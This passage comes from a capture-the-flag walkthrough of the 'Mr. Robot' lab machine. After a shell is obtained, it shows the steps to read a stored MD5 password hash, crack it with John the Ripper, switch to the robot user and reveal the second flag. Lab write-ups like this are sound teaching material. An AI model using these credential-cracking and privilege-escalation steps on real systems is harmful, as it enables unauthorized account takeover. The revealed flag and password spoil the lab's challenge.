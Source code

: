 > Once we open that URL, we get a connection on the `netcat` listener we set up.

![](./screenshots/robot-14.png)

> Now, we have access and can easily find the flags and escalate our privileges.

Going to `/home/robot`, we see 2 files. 

```bash
daemon@linux:/home/robot$ ls -lah
total 16K
drwxr-xr-x 2 root  root  4.0K Nov 13  2015 .
drwxr-xr-x 3 root  root  4.0K Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

Trying to open the flag file doesn't work as we are not the `robot` user.
- We see a file in `raw-md5` format, which is a file that contains a hash of the password of the user `robot`.

```bash
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We can use the `john` tool to crack this password given the type of hash and the wordlist `fsoctiy.dic`.
- First we copy the contents of the file in a file on our local machine called `pass.txt`.

```bash
john pass.txt -w=./fsocity.dic --format=raw-md5 -rules
```

We see that the tool outputs the password:`robot:abcdefghijklmnopqrstuvwxyz`

> Using that to login to `robot`:

```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ 
```

We are no logged in as `robot`, and can view the flag:

```bash
robot@linux:~$ cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959
```
